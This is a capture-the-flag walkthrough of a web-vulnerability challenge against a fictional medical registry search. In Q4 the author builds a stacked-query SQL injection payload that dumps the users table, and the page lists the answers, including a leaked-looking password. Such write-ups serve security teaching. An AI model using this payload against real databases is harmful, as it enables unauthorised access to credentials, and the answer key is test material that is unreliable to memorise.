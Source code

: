 # Even More Web Vulnerabilities Walkthrough
We are given another room with a directory search for different users. `/robots.txt` returns nothing here, so that is not important at least.

---
# Q1 - 10 Points
#### What is the name of the only Orthopedist?

In the search registry, it appears that we cannot search for `Orthopedist`, but only for characters and names. If we assume each person has a first and last name, we can search for a space character, and retrieve each person in the database.
#### Answer:
`Tracy Gill`

---
# Q2 - 10 Points
#### What is Katie Cain’s profession?

Same way from Q1
#### Answer:
`Neurologist`

---
# Q3 - 20 Points
#### How many medical professionals can be found in this registry?

Same way from Q1
#### Answer:
`11`

---
# Q4 - 30 Points
#### What is the name of the person who has a password of "greyblob"?

I originally thought this was an SQLi vulnerability. I confirmed the usage of SQL by inputting some random SQL text. The registry returned the lines:

```
SQLITE_ERROR: unrecognized token: ""%a"
SQLITE_ERROR: unrecognized token: """
```

Let's try an SQLi. Imagine that the input *is* vulnerable. The query is probably of the form:

```SQL
SELECT * FROM professionals WHERE name = " + q + ";
```

So, let's try to craft a query to bypass this first statement and get some info.

Let's first end the line by appending `1";`

This causes our query to become:

```sql
SELECT * FROM professionals WHERE name = "1";;
```

Now, let's add our own stuff. Append `SELECT * FROM users; --`

Note: here, the `--` is a comment operator. It comments out anything that may follow. Our new query is:

```sql
SELECT * FROM professionals WHERE name = "1"; SELECT * FROM users; --anything else following is commented out
```

We now have full access to this database and can answer the next two questions.
#### Answer:
`Kim Jenkins`

---
# Q5 - 30 Points
#### What is Mike Torres' password?

Can be seen in previous output.
#### Answer:
`SKY-FFKW-2139`

---
# Conclusion

Web app exploitation is now done. Thank God. This one was harder than other modules.

I cannot believe that SQLi was the solution to the hard level whereas earlier we had to identify a vulnerability with buffer :sob: